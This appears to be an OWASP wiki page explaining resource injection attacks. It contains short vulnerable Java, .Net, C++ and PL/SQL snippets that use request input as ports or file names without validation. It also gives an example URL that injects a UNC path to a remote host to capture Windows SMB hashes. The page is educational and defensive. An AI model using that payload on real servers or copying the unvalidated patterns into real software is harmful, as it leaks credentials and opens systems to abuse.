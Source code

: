 ```yaml
---

layout: col-sidebar
title: Resource Injection.md
author: 
contributors: 
permalink: /attacks/Resource_Injection
tag: attack, Resource Injection.md
auto-migrated: 1

---
```




Last revision (mm/dd/yy): **//**

## Description

This attack consists of changing resource identifiers used by an
application in order to perform a malicious task. When an application
defines a resource type or location based on user input, such as a file
name or port number, this data can be manipulated to execute or access
different resources.
The resource type affected by user input indicates the content type that
may be exposed. For example, an application that permits input of
special characters like period, slash, and backslash is risky when used
in conjunction with methods that interact with the filesystem.

The resource injection attack differs from [Path
Manipulation](Path_Manipulation "wikilink") as resource injection
focuses on accessing resources other than the local filesystem, while
[Path Manipulation](Path_Manipulation "wikilink") focuses on accessing
the local filesystem.

## Examples

### Example 1

The following examples represent an application which gets a port number
from an HTTP request and creates a socket with this port number without
any validation. A user using a proxy can modify this port and obtain a
direct connection (socket) with the server.

**Java code:**

`String rPort = request.getParameter("remotePort");`
`...`
`ServerSocket srvr = new ServerSocket(rPort);`
`Socket skt = srvr.accept(); `
`...`


**.Net code:**

`int rPort = Int32.Parse(Request.get_Item("remotePort "));`
`...`
`IPEndPoint endpoint = new IPEndPoint(address,rPort);`
`socket = new Socket(endpoint.AddressFamily, `
`SocketType.Stream, ProtocolType.Tcp);`
`socket.Connect(endpoint);`
`...`

### Example 2

This example is same as previous, but it gets port number from CGI
requests using C++:

`char* rPort = getenv("remotePort ");`
`...`
`serv_addr.sin_port = htons(atoi(rPort));`
`if (connect(sockfd,&serv_addr,sizeof(serv_addr)) < 0) `
`error("ERROR connecting");`
`...`

### Example 3

This example in PLSQL / TSQL gets a URL path from a CGI and downloads
the file contained in it. If a user modifies the path or filename, it’s
possible to download arbitrary files from server:

`...`
`filename := SUBSTR(OWA_UTIL.get_cgi_env('PATH_INFO'), 2);`
`WPG_DOCLOAD.download_file(filename); `
`...`

### Example 4

This example shows a resource injection attack focused on obtaining
Microsoft Windows SMB hashes from a remote server:

<http://www.vulnerable.com/open.aspx?filename=\\192.168.1.2\test.txt>

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:Logical Attacks](:Category:Logical_Attacks "wikilink")
  - [:Category: Information
    Disclosure](:Category:_Information_Disclosure "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Path Traversal](Path_Traversal "wikilink")
  - [Path Manipulation](Path_Manipulation "wikilink")
  - [Relative Path Traversal](Relative_Path_Traversal "wikilink")
  - [Injection Attacks](:Category:Injection_Attack "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")

## References

  - <http://samate.nist.gov/SRD/view_testcase.php?tID=1734>
  - <http://cwe.mitre.org/data/definitions/99.html>
  - <https://cwe.mitre.org/data/definitions/40.html>
  - <http://capec.mitre.org/data/index.html#Definition>
  - <http://www.fortifysoftware.com/vulncat/>
  - G. Hoglund and G. McGraw. Exploiting Software. Addison-Wesley, 2004.

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[Category: Injection](Category:_Injection "wikilink") [Category:
Attack](Category:_Attack "wikilink")